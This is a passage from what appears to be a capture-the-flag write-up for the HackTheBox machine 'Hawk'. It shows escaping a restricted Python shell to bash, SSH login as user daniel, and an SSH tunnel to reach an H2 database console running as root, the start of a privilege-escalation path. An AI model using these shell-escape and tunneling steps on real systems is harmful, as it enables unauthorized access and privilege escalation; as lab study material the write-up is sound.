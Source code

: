 Still, it is easy enough to escape:

```

>>> import subprocess
>>> subprocess.call('/bin/bash', shell=True)
daniel@hawk:/var/www/html$ id
uid=1002(daniel) gid=1005(daniel) groups=1005(daniel)

```

`pty.spawn("/bin/bash")` also works to escape the python shell.

This password also allows SSH access as daniel as well:

```

root@kali# ssh daniel@10.10.10.102
daniel@10.10.10.102's password:
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-23-generic x86_64)
...[snip]...
Type "help", "copyright", "credits" or "license" for more information.
>>> import pty;pty.spawn('/bin/bash')
daniel@hawk:~$

```

## Privesc: daniel -> root

### Enumeration

I noticed that h2 is running as root:

```

root        814  0.0  0.0   4628   868 ?        Ss   Nov25   0:00 /bin/sh -c /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
root        816  0.0  6.8 2339688 67568 ?       Sl   Nov25   4:05 /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar

```

[H2](http://www.h2database.com/html/main.html) is a Java based SQL database. Earlier I came across the H2 page on port 8082. Now I can get local access, using SSH tunnels (check out [previous post on tunnels](/2018/06/10/intro-to-ssh-tunneling.html) for details):

```

root@kali# ssh daniel@10.10.10.102 -L 8082:localhost:8082

```

Now, visiting `http://127.0.0.1:8082/` gives me the real console:

![1531995501016](https://0xdfimages.gitlab.io/img/1531995501016.png)
